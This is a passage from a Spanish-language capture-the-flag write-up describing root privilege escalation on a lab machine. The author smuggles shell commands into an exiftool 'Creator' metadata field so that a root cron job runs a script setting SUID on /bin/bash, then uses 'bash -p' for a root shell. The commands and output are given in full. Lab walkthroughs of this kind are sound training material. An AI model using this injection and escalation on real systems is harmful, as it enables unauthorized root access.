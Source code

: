 Entonces, vamos a usar un archivo sin extensión y le inyectamos el comando:
```bash
juanita@emerreuvedoble:/tmp$ touch test; exiftool -Creator='$(chmod u+s /bin/bash)' test
    1 image files updated
```
Funcionó.

Pero, después del minuto, no se elimina el archivo, por lo que no se está ejecutando el comando que queremos.

Quiero pensar que es porque el creador de dicho archivo, ya no es el **usuario juanita**, por lo que ya no cumple con las condiciones del script.

Entonces, tratemos de que el archivo ejecute un script de otro directorio. Dicho script, le dará **permisos SUID** a la **Bash**.

Creamos nuestro script en el directorio del **usuario juanita**:
```bash
juanita@emerreuvedoble:~$ cat bashSUID.sh 
#!/bin/bash
chmod u+s /bin/bash
```

Revisamos los permisos de la **Bash**:
```bash
juanita@emerreuvedoble:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```

Le indicamos a **exiftool** que el campo **"Creator"** del archivo creado, tendrá como valor la ejecución de nuestro script, ubicado en otro directorio. Utilizamos la sintaxis de **perl** para usar una expresión dinámica `x[$(comando)]` que ejecute lo que indiquemos.
```bash
juanita@emerreuvedoble:/tmp$ touch berserk; exiftool -Creator='x[$(/home/juanita/bashSUID.sh)]' berserk
    1 image files updated
```

Esperamos el minuto y observamos los permisos de la **Bash**:
```bash
juanita@emerreuvedoble:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Ahora sí funcionó.

Ya solamente ejecutamos la **Bash** con privilegios y seremos **Root**:
```bash
juanita@emerreuvedoble:/$ bash -p
bash-5.2# whoami
root
```

Leamos la última flag:
```bash
bash-5.2# cat /root/root.txt
...
```
Y con esto, terminamos la máquina.
